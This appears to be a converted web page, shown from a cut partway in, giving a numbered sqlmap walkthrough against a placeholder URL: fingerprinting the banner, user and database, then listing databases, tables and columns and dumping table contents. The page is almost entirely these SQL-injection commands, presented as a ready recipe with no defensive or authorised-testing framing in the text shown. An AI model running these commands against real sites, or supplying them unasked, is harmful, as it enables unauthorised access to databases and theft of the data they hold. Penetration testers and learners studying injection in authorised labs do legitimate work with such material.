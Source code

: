 </div>

<div>

python sqlmap.py -u \"http://target.com/page?id=1\" \--banner
\--current-user \--current-db

</div>

\

<div>

[\# Step 2: List Databases]{style="color: #00ffff;"}

</div>

<div>

python sqlmap.py -u \"http://target.com/page?id=1\" \--dbs

</div>

\

<div>

[\# Step 3: List Tables]{style="color: #00ffff;"}

</div>

<div>

python sqlmap.py -u \"http://target.com/page?id=1\" -D database_name
\--tables

</div>

\

<div>

[\# Step 4: List Columns]{style="color: #00ffff;"}

</div>

<div>

python sqlmap.py -u \"http://target.com/page?id=1\" -D database_name -T
table_name \--columns

</div>

\

<div>

[\# Step 5: Dump Data]{style="color: #00ffff;"}

</div>

<div>

python sqlmap.py -u \"http://target.com/page?id=1\" -D database_name -T
table_name \--dump
